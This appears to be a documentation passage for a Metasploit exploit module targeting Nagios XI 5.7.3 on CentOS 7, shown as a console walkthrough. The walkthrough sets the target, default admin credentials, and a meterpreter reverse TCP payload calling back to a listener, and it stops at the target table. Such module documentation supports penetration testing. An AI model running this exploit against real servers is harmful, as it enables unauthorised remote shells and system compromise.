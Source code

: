 ## Targets
```
Id  Name
--  ----
0   Linux (x86/x64)
1   CMD
```

## Scenarios
### Nagios XI 5.7.3 running on CentOS 7 - Linux target
```
msf6 > use exploit/linux/http/nagios_xi_mibs_authenticated_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set lhost 192.168.1.12
lhost => 192.168.1.12
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```